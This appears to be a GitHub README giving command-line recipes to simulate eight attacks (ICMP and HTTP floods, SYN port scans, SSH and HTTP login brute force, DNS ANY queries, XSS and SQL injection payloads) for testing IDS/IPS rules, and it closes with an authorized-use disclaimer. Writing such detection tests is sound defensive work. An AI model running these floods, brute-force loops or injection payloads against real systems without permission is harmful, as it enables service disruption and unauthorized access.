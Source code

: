# Attack Simulation Scenarios

This document provides instructions to simulate different types of network and web attacks for testing detection systems like IDS/IPS (e.g., Snort, Suricata).

---

## 1. Ping Flood Attack (ICMP Flood) - Rule 1
Send continuous ICMP Echo Requests to overload the target.

**Command using `ping`:**
```bash
ping -f -s 0 <HOME_NET_IP>
```
- `-f`: flood mode (send as fast as possible)
- `-s 0`: payload size 0 bytes

**Alternative using `hping3`:**
```bash
hping3 -1 --flood <HOME_NET_IP>
```
- `-1`: ICMP mode
- `--flood`: send packets as fast as possible

---

## 2. External Port Scan (SYN Scan) - Rule 2
Perform a TCP SYN port scan on the target.

**Command using `nmap`:**
```bash
nmap -sS -p- <HOME_NET_IP>
```
- `-sS`: Stealth SYN scan
- `-p-`: scan all ports

**Faster alternative using `hping3`:**
```bash
hping3 -S -p ++20 -c 50 <HOME_NET_IP>
```
- `-S`: TCP SYN flag
- `-p ++20`: increment port number every packet
- `-c 50`: 50 packets

---

## 3. SSH Brute Force Attempt - Rule 3
Simulate SSH login brute force attempts.

**Using `hydra`:**
```bash
hydra -l root -P /path/to/wordlist.txt ssh://<HOME_NET_IP>
```

**Manual simulation:**
```bash
for i in {1..10}; do ssh invaliduser@<HOME_NET_IP> -p 22; done
```

---

## 4. HTTP DoS Attempt - Rule 4
Send many concurrent HTTP GET requests.

**Using `ab` (Apache Benchmark):**
```bash
ab -n 1000 -c 100 http://<HOME_NET_IP>/
```
- `-n 1000`: total requests
- `-c 100`: concurrent requests

**Alternative using `hping3`:**
```bash
hping3 -c 1000 -d 120 -S -p 80 --flood <HOME_NET_IP>
```

---

## 5. DNS Amplification Attack - Rule 5
Simulate a DNS Amplification request.

**Single `dig` request:**
```bash
dig @<HOME_NET_IP> example.com ANY +udp
```

**Multiple requests:**
```bash
for i in {1..500}; do dig @<HOME_NET_IP> example.com ANY +udp; done
```

---

## 6. XSS Attack (Injection Payload)
Inject basic XSS payloads into web applications.

**Simple XSS injection:**
```bash
curl -X GET "http://<HOME_NET_IP>/?q=<script>alert(1)</script>"
```

**Encoded XSS injection:**
```bash
curl -G --data-urlencode "q=%3Cscript%3Ealert(1)%3C%2Fscript%3E" http://<HOME_NET_IP>/
```

**Special character injection:**
```bash
curl -G --data-urlencode "q=%22" http://<HOME_NET_IP>/
```

---

## 7. SQL Injection Attack
Simulate SQL Injection attempts.

**Using `curl` with sample payloads:**
```bash
curl -G --data-urlencode "q=select * from users" http://<HOME_NET_IP>/
```

```bash
curl -G --data-urlencode "q=union select username,password from admin" http://<HOME_NET_IP>/
```

**Using `sqlmap`:**
```bash
sqlmap -u "http://<HOME_NET_IP>/search.php?q=test" --dbs
```

---

## 8. HTTP Brute Force (Username + Password POST) - Rule 8
Perform HTTP POST login brute force.

**Using `curl` in a loop:**
```bash
for i in {1..10}; do 
  curl -X POST http://<HOME_NET_IP>/login -d "username=admin&password=wrongpass";
  sleep 1;
 done
```
- Send repeated login attempts with incorrect credentials.

---

# Notes:
- Replace `<HOME_NET_IP>` with your target IP address.
- Be cautious and ensure you have permission to perform these tests.
- These simulations are intended for legal and educational purposes only.

---

# Disclaimer
**This document is for educational and authorized testing purposes only. Unauthorized use is illegal.**
